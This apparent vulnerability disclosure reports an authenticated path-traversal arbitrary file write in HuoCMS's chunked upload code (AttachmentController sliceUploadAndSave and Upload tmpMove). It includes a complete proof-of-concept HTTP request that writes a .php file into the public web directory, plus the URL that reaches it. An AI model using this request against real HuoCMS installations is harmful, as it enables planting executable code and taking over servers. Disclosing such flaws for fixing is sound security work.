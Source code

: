 Source Code Address:  https://gitee.com/digital-flag/huocms

In the sliceUploadAndSave method of AttachmentController.php (located under app -> controller -> backend), the resource_type parameter is validated against a whitelist of allowed file extensions (e.g., txt, png, etc.). Subsequently, the method invokes tmpMove from Upload.php (under app -> service -> upload).

The tmpMove method first creates a file. However, the $filename parameter (controlled by the resource_temp_path input parameter, which is user-controllable) can be exploited to traverse directories (e.g., using ../) to create folders. The method then performs a move operation, placing the file into the created directory. The final filename is generated by appending an underscore and the $pos suffix, where $pos is controlled via the chunk_index parameter passed during the call (refer to the actual parameter passing for details).

This creates a vulnerability where an attacker could manipulate resource_temp_path and chunk_index to write files to arbitrary locations with controlled filenames.

Details:
app >controller >backend > AttachmentController.php：sliceUploadAndSave
![image](https://github.com/user-attachments/assets/24c5022b-5dbf-410b-96fd-ccbe93af5dbb)

app >service >upload > Upload.php：tmpMove
![image](https://github.com/user-attachments/assets/d0ba84b2-a5db-498f-95f7-e14a4c90c7cd)
![image](https://github.com/user-attachments/assets/e72806d6-1a06-467b-b040-172109bcb710)



This vulnerability is a backend issue that requires logging into the backend with a token to invoke. Please set up and log in by yourself.

POC：
```
POST /attachment/sliceUploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: token
Content-Type: multipart/form-data; boundary=----geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Length: 990
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_chunk"; filename="blob"
Content-Type: application/octet-stream

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_total"

1
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="chunk_index"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_basename"

.php
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_temp_path"

../../../public/storage/image/20250415/
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_type"

txt
------geckoformboundary13d3934e0299a09e8748d146bfb9d483
Content-Disposition: form-data; name="resource_name"

11.png
------geckoformboundary13d3934e0299a09e8748d146bfb9d483--
```

![image](https://github.com/user-attachments/assets/b670c180-df77-4e0d-9e13-7e02c7e8308e)


Access URL:  
http://127.0.0.1/storage/image/20250415/%5f%5f.php
![image](https://github.com/user-attachments/assets/be060299-23ee-470d-abaa-57550329ba34)





